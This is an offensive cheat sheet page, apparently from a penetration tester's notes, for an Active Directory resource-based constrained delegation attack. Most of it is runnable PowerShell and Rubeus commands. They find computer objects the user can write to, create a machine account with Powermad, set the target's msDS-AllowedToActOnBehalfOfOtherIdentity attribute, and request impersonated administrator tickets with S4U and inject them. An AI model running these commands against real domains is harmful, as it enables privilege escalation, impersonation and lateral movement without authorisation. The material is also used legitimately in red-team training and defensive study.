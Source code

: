 ```yaml
---
layout: page
title: "# AD Resource-Based Constrained Delegation"
permalink: /ad_cheatsheets/ad_resource_based_contrained_delegation
---
```


# AD Resource-Based Constrained Delegation

## Find GenericWrite ComputerAccounts

This specific vector starts by compromising a domain account that has the GenericWrite access right on a computer account object (when a computerobject use PSExec to get into computer context).

```powershell
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Get ms-DS-MachineAccountQuota data

Since we have GenericWrite on appsrv01, we can update any non-protected property on that object, including msDS-AllowedToActOnBehalfOfOtherIdentity and add the SID of a different computer.

Once a SID is added, we will act in the context of that computer account and we can execute the S4U2Self and S4U2Proxy extensions to obtain a TGS for appsrv01. To do this, we either have to obtain the password hash of a computer account or simply create a new computer account object with a selected password.

By default, any authenticated user can add up to ten computer accounts to the domain and they will have SPNs set automatically. This value is present in the ms-DS-MachineAccountQuota property in the Active Directory domain object.

We can enumerate ms-DS-MachineAccountQuota with the **PowerView** Get-DomainObject method:

```powershell
Get-DomainObject -Identity %DOMAIN-NAME% -Properties ms-DS-MachineAccountQuota
```

## Create a new computer account with PowerMad.ps1 and get SID

First you need to have PowerMad.ps1:

[https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)

Now let's import and run it to create a new computeraccount:

```powershell
. .\powermad.ps1

New-MachineAccount -MachineAccount %NEW-CREATED-MACHINENAME% -Password $(ConvertTo-SecureString 'TestComputer123' -AsPlainText -Force)
```

The msDS-AllowedToActOnBehalfOfOtherIdentity property stores the SID as part of a security descriptor in a binary format. We must convert the SID of our newly-created computer object to the correct format in order to proceed with the attack. To do this, we must first create a new security descriptor with the correct SID. We can use the RawSecurityDescriptor class to instantiate a SecurityDescriptor object:

```powershell
#Define the SID of newly created computer
$sid =Get-DomainComputer -Identity %NEW-CREATED-MACHINENAME% -Properties objectsid | Select -Expand objectsid

#Create SecurityDescriptor object
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"

#convert it into a byte array to match the format for the msDS-AllowedToActOnBehalfOfOtherIdentity property:
$SDbytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDbytes,0)

#OR the above  (incl. the first below) with PowerView:
Set-ADComputer %TARGET-COMPUTER% -PrincipalsAllowedToDelegateToAccount %NEW-CREATED-MACHINENAME% -Server 172.16.75.165 -Verbose
```

## Update the msDS-AllowedToActOnBehalfOfOtherIdentity to the SID of new machine

After the SecurityDescriptor has been converted to a byte array, we can use Get-DomainComputer to obtain a handle to the computer object for appsrv01 and then pipe that into Set-DomainObject, which can update properties by specifying them with -Set options:

```powershell
Get-DomainComputer -Identity %TARGET-COMPUTER% | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

## Verify the security descriptor

```powershell
#Reading the binary version of "msdsallowedtoactonbehalfofotheridentity" with Get-DomainComputer 
$RBCDbytes = Get-DomainComputer %TARGET-COMPUTER% -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity

#Instantiating a SecurityDescriptor object with RawSecurityDescriptor
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0

#Get SID:
$Descriptor.DiscretionaryAcl

#Convert SID:
ConvertFrom-SID S-1-5-21-2032401531-514583578-4118054891-6101
```

## Get the RC4 hash of the password used during creation of the computer account

```powershell
.\Rubeus.exe hash /password:%PASSWORD%
```

```powershell
#Call asktgt requesting a administrator ticket for service CIFS/appsrv01.prod.corp1.com and inject it into the memory:
.\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt

#Request multiple tickets for multiple services:
.\Rubeus.exe s4u /user:SuperMachine$ /rc4:A62289A48B2BD23C940D9E24AB05AD37 /impersonateuser:administrator /msdsspn:cifs/jump09.ops.comply.com /altservice:host,wsman,rpcss /ptt
```

*Note, we can also use the above attack vector with GenericAll, WriteProperty, or WriteDACL access rights to appsrv01.
